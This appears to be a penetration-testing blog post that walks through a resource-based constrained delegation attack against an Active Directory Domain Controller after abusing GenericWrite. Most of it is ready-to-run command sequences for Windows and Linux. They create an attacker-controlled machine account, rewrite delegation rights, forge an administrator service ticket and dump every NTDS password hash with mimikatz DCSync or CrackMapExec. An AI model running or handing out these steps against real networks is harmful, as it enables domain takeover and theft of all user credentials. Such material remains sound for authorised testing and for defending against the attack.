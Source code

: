 ```yaml
---
published: true
title: Another Way to Exploit GenericWrite
---
```


From BloodHound: "GenericWrite to a computer object can be used to perform a resource based constrained delegation attack. Abusing this primitive is currently only possible through the Rubeus project. First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account"

BloodHound, as well as every blog post I could find on this subject specifies using CIFS to read the C$ drive on the target. In my case I needed to exploit a Domain Controller and dump password hashes. This post will show two ways to exploit this, one from Windows and another from Linux.

___

## From Windows in PowerShell:

```
New-MachineAccount -MachineAccount newcomputer -Password $(ConvertTo-SecureString 'Password12345' -AsPlainText -Force) 
$ComputerSid = Get-DomainComputer newcomputer -Properties objectsid | Select -Expand objectsid 
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer <fqdn> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} 
.\Rubeus.exe s4u /user:newcomputer$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:ADMINISTRATOR /msdsspn:LDAP/<fqdn> /ptt 
.\mimikatz
lsadump::dcsync /dc:<dc fqdn> /domain:<domain> /all /csv
```

___

## From Linux:

This attack requires a different version of rbcd.py than the one that comes with Impacket. Get it from https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py

Add a computer:
```
impacket-addcomputer -computer-name 'newcomputer$' -computer-pass Password12345 -dc-ip [DC IP] [domain]/[username]:[password]
```

Modifying delegation rights:
```
python3 rbcd.py -f newcomputer -t <target computer> -dc-ip [DC IP] -hashes :<NT Hash> <domain>\\<user>
```

Getting the impersonated service ticket. If you follow the instructions from the BloodHound "Abuse info", it tells you to use 'cifs'. However, since we want to dump NTDS from the domain controller, we use 'ldap' in this case.

```
getST.py -spn ldap/<domain> -impersonate administrator -dc-ip [DC IP] <domain>/newcomputer$:Password12345
```

After adding the file path to the KRB5CCNAME variable the ticket is usable for Kerberos clients. 

```
export KRB5CCNAME=$(pwd)/administrator.ccache
```

Run Secretsdump or CrackMapExec:

```
cme smb <target> -k --ntds
```
